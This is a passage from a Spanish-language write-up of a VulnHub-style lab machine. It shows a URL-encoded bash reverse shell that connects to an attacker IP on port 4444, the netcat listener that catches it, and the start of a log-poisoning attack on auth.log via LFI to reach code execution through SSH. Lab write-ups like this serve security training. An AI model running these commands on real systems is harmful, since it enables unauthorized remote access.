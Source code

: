 ```bash
bash -c "bash -i >%26 /dev/tcp/10.10.10.4/4444 0>%261"
```

Pero antes de ejecutarlo, tendremos que ponernos en escucha con un **Listener** con **ncat** por el puerto indicado en la **Reverse Shell**.

```bash
nc -nlvp 4444
```

Y una vez estemos en escucha, lo ejecutamos en el navegador.

![picture](/assets/images/vulnhub/corr17.png)

Y tendremos acceso a la máquina como el usuario **www-data***.

![picture](/assets/images/vulnhub/corr18.png)

#### 2. *Log Poisoning*

Como habíamos visto antes en la [Imagen](/assets/images/vulnhub/corr5.png), decían que cambiasen los permisos de **auth log**, que es el registro de logs del sistema.

Un **Log Poisoning** es el envenenamiento de Logs con código **PHP**.

Al tener el **LFI**, y tener la capacidad de ver el archivo **auth.log** en tiempo real, podemos intentar envenenar los logs para obtener un **RCE** mediante **SSH**, ya que habíamos comprobado que estaba el servicio corriendo.

![picture](/assets/images/vulnhub/corr19.png)
